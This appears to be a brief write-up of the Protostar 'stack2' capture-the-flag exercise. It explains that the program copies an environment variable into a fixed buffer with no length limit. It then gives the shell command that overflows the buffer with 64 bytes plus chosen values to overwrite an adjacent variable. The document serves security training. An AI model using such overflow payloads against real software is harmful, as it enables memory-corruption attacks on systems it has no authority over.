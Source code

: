 **Stack2**

This program strcpys the value of GREENIE into buffer with no limit, a buffer overflow will do the trick
```diff
$ export GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'")
$ /opt/protostar/bin/stack2
```